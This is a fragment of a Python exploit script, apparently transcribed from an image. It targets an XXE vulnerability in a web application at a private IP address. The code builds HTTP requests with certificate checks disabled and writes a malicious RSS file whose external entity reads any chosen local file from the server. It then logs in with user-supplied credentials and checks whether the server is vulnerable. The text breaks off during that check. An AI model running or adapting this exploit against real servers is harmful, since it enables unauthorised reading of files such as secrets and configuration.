 ```python
        self.session = requests.Session()
    def requestHelper(self, path, method, data=""):
        headers = {
            'Host': '172.16.77.21:8080',
            'Pragma': 'no-cache',
            'Cache-Control': 'no-cache',
            'charset': 'utf-8',
            'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36',
            'Content-type': 'application/x-www-form-urlencoded',
            'Accept': '*/*',
            'Accept-Language': 'en-US,en;q=0.9',
            'Connection': 'close',
        }

        if method == 'POST':
            response = self.session.post(url=self.url + path, headers=headers, data=data, verify=False)
            return response
        elif method == 'GET':
            response = self.session.get(url=self.url + path, headers=headers, verify=False)
            return response
	   
    # Take user input and modify the payload
    def update_payload(self, file):
        XML_PAYLOAD = '''
        <!DOCTYPE title [ <!ELEMENT title ANY >
        <!ENTITY xxe SYSTEM "file://{}">]>
        <rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
        <channel>
            <title>Evil Blog</title>
            <link>http://example.com/</link>
            <description>A blog about things</description>
            <lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
            <item>
                <title>&xxe;</title>
                <link>http://example.com</link>
                <description>a post</description>
                <author>author@example.com</author>
                <pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
            </item>
        </channel>
        </rss>
        '''.format(file)
        try:
            with open('./evil', 'w') as f:
                f.write(XML_PAYLOAD)
        except Exception as e:
            print(e)

    # Try and login using user-supplied credentials
    def login(self):
        data = 'redirectPath=&username=' + self.username + '&password=' + self.password
        resp = self.requestHelper('/kwok/auth/verify-password.htm', 'POST', data)
        return (resp.url)

    # Determine if server is vulnerable.
    def isVulnerable(self):
        print('[+] Checking if Server is Vulnerable....')
        if self.login().endswith('_error=true'):
            print("[x] Login Failed - are the credentials correct?")
            exit()

```